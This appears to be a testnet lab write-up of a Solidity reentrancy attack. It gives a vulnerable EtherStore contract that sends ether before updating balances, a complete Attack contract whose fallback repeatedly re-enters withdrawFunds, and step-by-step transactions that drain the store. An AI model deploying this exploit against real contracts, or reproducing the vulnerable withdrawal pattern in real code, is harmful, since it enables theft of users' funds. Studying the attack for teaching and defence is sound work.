 # Example - EtherStore.sol

#### EtherStore.Sol

```javascript
pragma solidity 0.4.18;
contract EtherStore {
    uint256 public withdrawalLimit = 0.1 ether;
    mapping(address => uint256) public lastWithdrawTime;
    mapping(address => uint256) public balances;
    function depositFunds() public payable {
        balances[msg.sender] += msg.value;
    }
    function withdrawFunds (uint256 _weiToWithdraw) public {
        require(balances[msg.sender] >= _weiToWithdraw);
        // limit the withdrawal
        require(_weiToWithdraw <= withdrawalLimit);
        // limit the time allowed to withdraw
        require(now >= lastWithdrawTime[msg.sender] + 1 weeks);
        require(msg.sender.call.value(_weiToWithdraw)());
        balances[msg.sender] -= _weiToWithdraw;
        lastWithdrawTime[msg.sender] = now;
    }
 }
```

Note: `withdrawLimit` set to 0.1 ether.

Deployed on Ropsten:  
[https://ropsten.etherscan.io/tx/0x34996d7830b216d93e5ecda9468fe472e485dbdb609884405e7f1b5c74533d39](https://ropsten.etherscan.io/tx/0x34996d7830b216d93e5ecda9468fe472e485dbdb609884405e7f1b5c74533d39)

From \(Metamask\):  
`0x109bb3673f445d8b0d2b04436d7b4a630b873b81`  
To \(contract\):  
`0x52b2a43b59a39f4c863aa86da6c6fe73b33bdc73`

#### Attack.sol

```javascript
pragma solidity 0.4.18;

contract EtherStore {
        function depositFunds() public payable {}
        function withdrawFunds(uint256) public {}
}

contract Attack {
    //EtherStore public etherStore;
    EtherStore public etherStore;
        function Attack(address _t) public {
        etherStore = EtherStore(_t);
    }
  function attackEtherStore() public payable {
      // attack to the nearest ether
      require(msg.value >= 0.1 ether);
      // send eth to the depositFunds() function
      etherStore.depositFunds.value(0.1 ether)();
      // start the magic
      etherStore.withdrawFunds(0.1 ether);
  }
  function collectEther() public {
      msg.sender.transfer(this.balance);
  }
  // fallback function - where the magic happens
  function () payable {
      if (etherStore.balance > 0.1 ether) {
          etherStore.withdrawFunds(0.1 ether);
      }
  }
}
```

[https://ropsten.etherscan.io/tx/0x551f6d272274edbef299763343a4daea58438ef20522ed526ecfea7bff59734f](https://ropsten.etherscan.io/tx/0x551f6d272274edbef299763343a4daea58438ef20522ed526ecfea7bff59734f)  
From:  
`0x109bb3673f445d8b0d2b04436d7b4a630b873b81`  
To:  
`0x733146fa7f8b40f4c97d946efeb7bdc9ff69ba6e`

Deposit some Eth from Metamask \(pretend this is some other user/victim\) to EtherStore \(to steal later\):  
[https://ropsten.etherscan.io/tx/0x58671521d2c0df635bf0c3986d53186e38ebe8d4f7d62c2fb5f681e0d938bec6](https://ropsten.etherscan.io/tx/0x58671521d2c0df635bf0c3986d53186e38ebe8d4f7d62c2fb5f681e0d938bec6)  
[![images/23-1.png](../../.gitbook/assets/23-1%20%281%29.png)](./)

I can now check the balance of my Metamask account by calling the `balances` mapping:

[![images/23-2.png](../../.gitbook/assets/23-2%20%281%29.png)](./)

Send 0.1 eth from the Attack.sol contract so that it has some balance to call `withdrawFunds()` later.

The following transaction sends 0.1 eth to Attack.sol's payable attackEtherStore\(\) function which will in turn deposit and subsequently withdraw funds from EtherStore.sol

From:  
`0x109Bb3673f445D8b0d2b04436D7b4a630B873B81`  
To:  
`0x733146Fa7F8B40f4c97d946EfEb7bdc9ff69BA6E`  
Tx:  
[https://ropsten.etherscan.io/tx/0xb6e7cc1fbd093691d75f0a877a5efb998591f88aac938c3e836b6de918a8594a](https://ropsten.etherscan.io/tx/0xb6e7cc1fbd093691d75f0a877a5efb998591f88aac938c3e836b6de918a8594a)

[![images/23-3.png](../../.gitbook/assets/23-3%20%281%29.png)](./)

Once executed, we can see the current balance is 0.1 eth, even though 0.5 was sent

[![images/23-4.png](../../.gitbook/assets/23-4%20%281%29.png)](./)

Because 5 ether were actually sent

Notice that the first Tx in the followig image shows 0.1 ether being sent from the Attack.sol address to EtherStore.sol, followed by 5 outgoing transacions from the EtherStore.sol to Attack.Sol contract. Now Attack.sol has 0.5 eth!!!

[![images/23-5.png](../../.gitbook/assets/23-5%20%281%29.png)](./)

Also the Attack.sol contract has a massive balance on EtherStore, not sure why:

[![images/23-6.png](../../.gitbook/assets/23-6%20%281%29.png)](./)

Calling CollectEther\(\) Sends those 0.5 eth back to our wallet address!

[https://ropsten.etherscan.io/tx/0xf11dcf8de8bed562a8b4f0d977efbe2db8940adee4745c0400e8f44b95ffed93](https://ropsten.etherscan.io/tx/0xf11dcf8de8bed562a8b4f0d977efbe2db8940adee4745c0400e8f44b95ffed93)  
[![images/23-7.png](../../.gitbook/assets/23-7%20%281%29.png)](./)

This becomes clearer is we export the internal transactions to csv:

[![images/23-8.png](../../.gitbook/assets/23-8%20%281%29.png)](./)


